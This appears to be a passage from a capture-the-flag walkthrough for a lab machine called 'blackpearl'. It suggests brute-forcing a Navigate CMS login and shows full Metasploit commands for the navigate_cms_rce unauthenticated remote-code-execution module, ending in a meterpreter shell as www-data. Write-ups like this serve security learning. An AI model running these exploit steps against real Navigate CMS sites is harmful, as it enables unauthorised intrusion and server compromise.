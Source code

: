 ```

```
As Heath said **"Navigate to navigate"**

We will see a **Navigate Login** website


```
/navigate/login.php

Navigate CMS is a content management system designed to help users create, manage, and update digital content on websites without needing advanced technical knowledge.
```

Well you can try to bruteforce the login page using known user names like alek,blackpearl something .

Now while searching in Google, searchploit & Rapid7 we found 

**Navigate CMS -(Unauthenticated) Remote Code Execution**

We will search for it in **Metasploit**

Start Metasploit :

```
msfconsole
```
Search navigate CMS:

```
msf5 > search navigate
```
You will find 

```
exploit/multi/http/ navigate_cms_rce
```
Okay now you can use & set the rhosts,vhost 

```
| msf5 > use exploit/multi/http/ navigate_cms_rce

| msf5 exploit(multi/http/navigate_cms_rce) > options

| msf5 exploit(multi/http/navigate_cms_rce) > set rhosts [black pearl ip]

| msf5 exploit(multi/http/navigate_cms_rce) > set vhost blackpearl.tcm


| msf5 exploit(multi/http/navigate_cms_rce) > run
```
We have a meterpreter session running ! Good

```
meterpreter > shell 

whoami
www-data
```
